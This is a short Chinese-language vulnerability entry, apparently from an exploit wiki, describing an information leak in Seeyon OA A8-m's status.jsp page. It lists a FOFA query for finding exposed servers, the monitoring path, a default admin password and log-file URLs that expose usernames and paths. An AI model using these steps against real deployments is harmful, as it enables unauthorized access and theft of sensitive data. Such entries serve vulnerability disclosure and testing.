 # 致远OA A8 status.jsp 信息泄露漏洞

## 漏洞描述

致远OA A8-m 存在状态监控页面信息泄露，攻击者可以从其中获取网站路径和用户名等敏感信息进一步攻击

## 漏洞影响 

<a-checkbox checked>致远OA A8-m</a-checkbox></br>

## FOFA

<a-checkbox checked>title="A8-m"</a-checkbox></br>

## 漏洞复现

访问监控页面

```plain
/seeyon/management/status.jsp
```

![img](../../../.vuepress/public/img/zhiyuan-32.png)



<a-checkbox checked>后台密码为 **WLCCYBD**[**@SEEYON** ]() </a-checkbox></br>

<a-checkbox checked>登录后通过如下url获得一些敏感信息</a-checkbox></br>

```plain
/seeyon/management/status.jsp
/seeyon/logs/login.log
/seeyon/logs/v3x.log
```

![img](../../../.vuepress/public/img/zhiyuan-33.png)



![img](../../../.vuepress/public/img/zhiyuan-34.png)



![img](../../../.vuepress/public/img/zhiyuan-35.png)